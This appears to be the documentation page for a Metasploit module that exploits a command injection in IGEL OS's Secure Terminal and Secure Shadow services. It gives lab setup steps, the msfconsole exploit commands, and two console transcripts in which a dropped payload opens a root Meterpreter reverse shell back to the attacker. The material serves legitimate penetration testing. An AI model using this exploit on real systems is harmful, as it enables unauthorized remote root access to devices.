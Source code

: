 ## Vulnerable Application

IGEL OS before 11.04.270 and 10.06.220 are vulnerable to remote command execution into a `system()` call via Secure Terminal and Secure Shadow services.

This module uses the vulnerability to modify certain systemd limits for the targeted service before transfering the payload; this is done to increase payload transfer throughput and preserve service stability.  After exploitation these changes are reverted. 

Secure Terminal/telnet_ssl_connector:   30022/tcp  
Secure Shadow/vnc_ssl_connector:        5900/tcp


## Verification Steps

Download Vulnerable IGEL OS version (e.g. 11.04.130) from: https://www.igel.com/software-downloads/workspace-edition/.

Unpack downloaded zip file and create a VM using the included .iso.

Navigate through the installation menus to install the firmware, reboot when prompted

After rebooted work through the presented configuration wizard.  In the Activation section use the starter license (selected by default).  Skip the ICG Agent Setup.  Upon completion the system will reboot again.

### Turn on vulnerable services

1. Click on the launcher menu
2. Click on the gear icon
3. Select "Setup" from the Application menu to launch the Setup app
4. To enable vulnerable VNC service wrapper: Under the configuration menu on the left Navigate to: System > Remote Access > Shadow.  Ensure "Allow remote shadowing" and "Secure mode" are checked.
5. To enable vulnerable terminal wrapper: Under the configuration menu on the left Navigate to: System > Remote Access > Secure Terminal. Ensure "Secure Terminal" is checked.

### Exploitation

1. start msfconsole
2. `use exploit/linux/misc/igel_command_injection`
3. `set RHOST [TARGET IP]`
4. `set RPORT [30022 or 5900]`
5. `set LHOST [LOCAL IP]`
6. `exploit`

### Misc

To obtain the IGEL's IP address to test against click the up/down arrows on the right side of the task bar then click "More Details".  A shell is available on a virtual console by ctrl+alt+F11, switch back to the GUI with ctrl+alt+F1.

This module has been successfully tested against IGEL OS 11.04.130 and 10.05.500 with metasploit framework 6.0.31-dev on Kali.


## Scenarios

### IGEL OS 11.04.130

Targeting the Secure Terminal service (30022/tcp):

```
msf6 > use exploit/linux/misc/igel_command_injection 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/igel_command_injection) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/igel_command_injection) > set RHOST 192.168.120.224
RHOST => 192.168.120.224
msf6 exploit(linux/misc/igel_command_injection) > check
[*] 192.168.120.224:30022 - The target appears to be vulnerable.
msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.120.225:4444 
[*] 192.168.120.224:30022 - Overriding igel-telnet-ssl-connector.service StartLimitBurst
[*] 192.168.120.224:30022 - Overriding igel-telnet-ssl-connector.socket TriggerLimitBurst
[*] 192.168.120.224:30022 - Writing payload to file /tmp/CPr9.
[*] 192.168.120.224:30022 - Executing payload /tmp/CPr9.
[*] 192.168.120.224:30022 - Removing payload file /tmp/CPr9.
[*] Sending stage (39324 bytes) to 192.168.120.224
[*] Meterpreter session 1 opened (192.168.120.225:4444 -> 192.168.120.224:48130) at 2021-03-25 12:29:45 -0400
[*] 192.168.120.224:30022 - Removing override for igel-telnet-ssl-connector.service
[*] 192.168.120.224:30022 - Removing override for igel-telnet-ssl-connector.socket

meterpreter > getuid
Server username: root
meterpreter > 
```

### IGEL OS 10.05.500

Targeting the Secure Shadowing service (5900/tcp):

```
msf6 > use exploit/linux/misc/igel_command_injection 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/igel_command_injection) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/igel_command_injection) > set RHOST 192.168.120.226
RHOST => 192.168.120.226
msf6 exploit(linux/misc/igel_command_injection) > set RPORT 5900
RPORT => 5900
msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.120.225:4444 
[*] 192.168.120.226:5900 - Overriding igel-vnc-ssl-connector.service StartLimitBurst
[*] 192.168.120.226:5900 - Overriding igel-vnc-ssl-connector.socket TriggerLimitBurst
[*] 192.168.120.226:5900 - Writing payload to file /tmp/lSmU.
[*] 192.168.120.226:5900 - Executing payload /tmp/lSmU.
[*] 192.168.120.226:5900 - Removing payload file /tmp/lSmU.
[*] Sending stage (39328 bytes) to 192.168.120.226
[*] 192.168.120.226:5900 - Removing override for igel-vnc-ssl-connector.service
[*] 192.168.120.226:5900 - Removing override for igel-vnc-ssl-connector.socket
[*] Meterpreter session 1 opened (192.168.120.225:4444 -> 192.168.120.226:55144) at 2021-03-25 12:48:34 -0400

meterpreter > getuid
Server username: root
meterpreter > 
```
